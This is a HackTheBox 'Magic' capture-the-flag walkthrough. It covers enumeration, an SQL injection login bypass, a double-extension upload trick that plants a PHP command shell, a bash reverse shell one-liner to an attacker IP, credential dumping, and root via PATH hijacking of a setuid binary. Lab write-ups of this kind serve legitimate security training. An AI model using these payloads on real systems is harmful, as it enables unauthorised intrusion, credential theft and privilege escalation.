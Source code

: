 # **HACKTHEBOX – MAGIC WRITEUP**

![](/Magic/logo.png)

# **IP: 10.10.10.185**

# **Enumeration**

First, we will run nmap.

![](/Magic/nmap.png)


The scan shows 2 ports are open. Port 22 for SSH and port 80 for Apache.

I will start an all ports nmap scan ( -p ) just in case there are more open ports.


![](/Magic/nmap-allports.png)

The Apache web server has a wider attack surface, so that is what I am going to enumerate more first.

![](/Magic/homewebsite.png)

Port 80 gives a web page with a bunch of images.

Clicking an image only displays the clicked image.

![](RackMultipart20200925-4-tfagf1_html_b87eb59bf871fbb3.png)

# **FOOTHOLD**

There is a login button at the bottom left corner that takes me to a php login page.

![](RackMultipart20200925-4-tfagf1_html_890bed27c2b7ae8.png)

Knowing that this web server has PHP files, I am going to start a gobuster for hidden directories and php files.

![](RackMultipart20200925-4-tfagf1_html_dd3bf8e8ad625b7d.png)

There is a file called &quot;upload.php&quot;. Upload functions tend to be exploitable, so I am going to take a closer look at that file. Opening that files takes me back to the login page.

Whenever I meet a login page, I will always try some weak credentials. Sadly, they didn&#39;t work on this login page. So I try some SQL injection, but the page doesn&#39;t allow spaces for whatever reason. I use Burpsuite to intercept my login request and insert the SQL injection payload that way.

Username: &#39;OR 1=1 -- -

Password: doesn&#39;t matter

Press ctrl + u to URL encode and forward it to the server.

![](RackMultipart20200925-4-tfagf1_html_d79bf28b901f838b.png)

We got logged in!

![](RackMultipart20200925-4-tfagf1_html_e069d3f801c47024.png)

Exploiting an upload function is easier using Burpsuite, that is where I am going to insert my payloads.

Uploading a php file returns an error.

![](RackMultipart20200925-4-tfagf1_html_8118e14a52ebef3d.png)

So there is some file type validations going on, we need to bypass it.

There are a few ways to validate a file. It can be through file extension, MIME type or magic bytes. So I am going to modify the request through the repeater tab (ctrl + r) hopefully bypass the file validations.

I upload a jpeg file and put some php code in it with Burpsuite.

![](RackMultipart20200925-4-tfagf1_html_39ba9cee7fee6cfa.png)

This is a simple php code execution script and will run any command through the &quot;cmd&quot; parameter.

The original file name is &quot;lol.jpeg&quot; and I change it to &quot;lol.jpeg.php&quot;.

After that, I send the request to the server but I still get the error.

So I change the filename to &quot;lol.php.jpeg&quot; because there is a chance that apache .htaccess is configured in a weird way and run &quot;php.jpeg&quot; files as php.

![](RackMultipart20200925-4-tfagf1_html_c8fb2ddf01bfcee7.png)

I successfully uploaded the file.

Now we need to access the file for the server to run the php code.

If you go back to the main page and click view image on an image there, the directory where the image is stored is on &quot;/image/uploads/&quot;. So I try to hit &quot;/image/uploads/lol.php.jpeg&quot;.

![](RackMultipart20200925-4-tfagf1_html_9b486c5227cc385d.png)

I successfully access the file. Now I will try injecting a command.

![](RackMultipart20200925-4-tfagf1_html_d635245a792207b2.png)

I run the command &quot;whoami&quot; and it returns www-data. We know for sure we have command execution.

Now we will try a reverse shell payload.

Payload: bash -c &#39;bash -i \&gt;&amp; /dev/tcp/10.10.14.2/9001 0\&gt;&amp;1&#39;

I set up a listener on port 9001, click send and we got a shell as www-data.

![](RackMultipart20200925-4-tfagf1_html_ba5649e21650bd30.png)

# **USER**

Looking at the db.php5 file, we got some credentials.

![](RackMultipart20200925-4-tfagf1_html_fd443e7a915f9fe1.png)

Using those creds to switch user to &quot;theseus&quot; doesn&#39;t work, But we know this is a database credential, we access the database and get more stuff.

But mysql is not installed so I use &quot;mysqldump&quot; instead.

![](RackMultipart20200925-4-tfagf1_html_ab75d2c12b4c6504.png)

Dumping the database &quot;Magic&quot; gives more credentials.

![](RackMultipart20200925-4-tfagf1_html_cda2d65c1ea45a71.png)

Using the creds from the sqldump, I can switch to user &quot;theseus&quot;.

# **ROOT**

After getting the theseus user, I like to do some find commands to see what files belong to the user.

Running this returns a lot of stuff that I am too lazy to look at.

![](RackMultipart20200925-4-tfagf1_html_922d15cc0c484ad6.png)

So I decided to use groups instead.

If we use the groups command, theseus belongs to a group called &quot;users&quot;.

![](RackMultipart20200925-4-tfagf1_html_c11f9107a30e1db4.png)

Running the find command with groups returns only 1 binary and it is a setuid binary.

I try running the binary and it returns a bunch of system information.

I use strace with the &quot;-f&quot; flag to follow forks on the binary to get more information and I use grep to see what commands this binary is executing.

![](RackMultipart20200925-4-tfagf1_html_f214514f62b0b830.png)

The binary doesn&#39;t use absolute path which means we can abuse this.

I write a simple bash reverse shell script called &quot;free&quot;.

![](RackMultipart20200925-4-tfagf1_html_8a7dac40357e8b26.png)

Then I modify the $PATH and add the directory where my &quot;free&quot; script is located and put it before the others.

![](RackMultipart20200925-4-tfagf1_html_5154923a25470609.png)

Then I setup a listener on port 9002 and run the sysinfo binary and we got root!

![](RackMultipart20200925-4-tfagf1_html_d57eef0a8abf27a1.png)
